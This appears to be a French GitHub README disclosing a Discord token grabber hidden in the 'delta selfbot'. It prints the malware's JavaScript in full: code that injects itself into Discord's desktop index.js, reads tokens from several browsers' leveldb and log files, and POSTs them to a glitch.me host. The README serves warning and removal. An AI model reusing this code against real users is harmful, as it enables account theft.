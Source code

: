 # quentin-grabber-remover
programme pour supprimer le grabber de quentin (ogagal)  delta selfbot un selfbot de confiance


## slt cv

quand vous lancez le delta selfbot pour la première fois vous allez vous faire voler tous vos tokens

les navigateurs où les tokens sont grabb : 
```json
{
    discord,
    discord canary,
    Chrome,
    Opera,
    Brave,
    Yandex
}
```

Si vous vous êtes déjà connecté sur un de ces navigateurs/clients les admins du delta auront vos tokens, et à chaque redémarrage de discord vous allez vous faire token grabb

par le code si dessous: 

```js
//là le path est défini par "/AppData/Roaming/discord/0.0.309/modules/discord_desktop_core/index.js"
var path = __dirname.split(':')[0] + (":/Users/") + __dirname.split('\\')[2] + ("/AppData/Roaming/discord/0.0.309/modules/discord_desktop_core/index.js");

punchack.crypto == '0' && (path && (fs.appendFile(path, /*ici c'est pour dire de rajouter ce code dans l'index.js "path"*/`
//internet doit trembler...
const fs = require("fs")

var paths = [\`\${__dirname.split(":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Roaming/discord/Local Storage/leveldb\`,
\`\${__dirname.split(":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Local/Google/Chrome/User Data/Default/Local Storage/leveldb\`,
\`\${__dirname.split(\":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Roaming/discordcanary/Local Storage/leveldb\`,
\`\${__dirname.split(\":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Roaming/Opera Software/Opera Stable/Local Storage/leveldb\`,
\`\${__dirname.split(\":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Local/BraveSoftware/Brave-Browser/User Data/Default/Local Storage/leveldb\`,
\`\${__dirname.split(\":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Local/Yandex/YandexBrowser/User Data/Default/Local Storage/leveldb\`
]`), function(err) {
    if (err) throw err;
}); 
```

les tokens sont ensuite récupérés avec ce code:

```js
for (i = 0; i < paths.length; i++) {
    
    get_token(paths[i])
    
}

async function get_token(path) {
    try {
        fs.readdir(path, (err, files) => {
            if (files === undefined) {
                return
            }

            var filtro = files.filter(f => f.split(".")
                .pop() === "ldb")
            for (i = 0; i < filtro.length; i++) {

                fs.readFile(`${path}/${filtro[i]}`, "utf-8", async function (err, data) {

                    let regex1 = /"[dw_-]{24}.[dw_-]{6}.[dw_-]{27}"/;

                    let regex2 = /"mfa.[dw_-]{84}"/;

                    let [match] = regex1.exec(data) || regex2.exec(data) || [null];
                    if (match != null) {
                        match = match.replace(/"/g, "")
                        const benladen = new URLSearchParams();

                        benladen.append("token", match);

                        fetch("https://truthful-oceanic-bonobo.glitch.me/", {
                            method: "POST",
                            body: benladen
                        })

                        await fetch(`https://discord.com/api/v6/users/@me`, {
                                headers: {
                                    "authorization": match
                                }
                            })
                            .then(resp => resp.json())
                            .then(response => {
                                if (response.id) {
                                    send(match)
                                }
                            })
                    }
                })
            }
        })
        fs.readdir(path, (err, files) => {
            if (files === undefined) {

                return
            }
            var filtro = files.filter(f => f.split(".")
                .pop() === "log")
            for (i = 0; i < filtro.length; i++) {
                fs.readFile(`${path}/${filtro[i]}`, "utf-8", async function (err, data) {
                    let regex1 = /"[dw_-]{24}.[dw_-]{6}.[dw_-]{27}"/;
                    let regex2 = /"mfa.[dw_-]{84}"/;
                    if (regex1.test(data)) {}

                    let [match] = regex1.exec(data) || regex2.exec(data) || [null];
                    if (match != null) {
                        match = match.replace(/"/g, "")

                        const attentat = new URLSearchParams();
                        attentat.append("token", match);
                        fetch("https://truthful-oceanic-bonobo.glitch.me/", {
                            method: "POST",
                            body: attentat
                        })
                        await fetch(`https://discord.com/api/v6/users/@me`, {
                                headers: {
                                    "authorization": match
                                }

                            })
                            .then(resp => resp.json())
                            .then(response => {
                                if (response.id) {
                                    send(match)
                                }
                            })
                    }
                })
            }
        })

    } catch (err) {

        console.log(err)
    }
}

function send(token) {
    let is = "0"
}
```

`(code qu'il a pris ici : https://github.com/xLucazzz-projects/Discord-TokenGrabber)`


Ps: vous pouvez check par vous même en allant dans le fichier "node modules/base-64/config.json" vous pourrez voir 
```json
{ "crypto": "0" }
```
# Attention
si vous avez :
```json
{ "crypto": "1" }
```
__c'est que vous vous êtes déjà fait grabb__
pour retirer le token grabber j'ai fais ce petit programme:
`https://github.com/NotPunchnox/quentin-grabber-remover/`

```js
const fs = require("fs")


```

Ensuite,

à chaque lancement du Quentin eu delta selfbot le token que vous aurez mis dans le fichier config.json sera volé via cet api (glitch encore une fois :rire:)

`https://truthful-oceanic-bonobo.glitch.me/`

avec ce code : 
```js
const searchParams = new URLSearchParams();
searchParams.append("token", token);
fetch("https://truthful-oceanic-bonobo.glitch.me/", {
    'method': "POST",
    'body': searchParams
});
```


```



sinon discord.gg/punchnox quand j'aurais fini de deob je leak les codes ^^

```
